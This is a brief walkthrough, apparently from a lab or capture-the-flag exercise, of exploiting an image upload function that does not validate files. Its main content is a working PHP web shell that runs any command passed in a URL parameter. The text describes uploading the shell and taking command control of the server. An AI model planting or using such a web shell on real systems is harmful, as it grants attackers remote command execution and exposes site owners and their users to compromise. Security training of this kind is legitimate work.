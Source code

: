 and the you have the file upload vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem

![](../assets/1.png)

for this you can try to upload file that content the shell you can create this
```PHP
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```

![](../assets/2.png)

uploaded Successfully
this small code open the shell on the server and you can write the any command on the server.

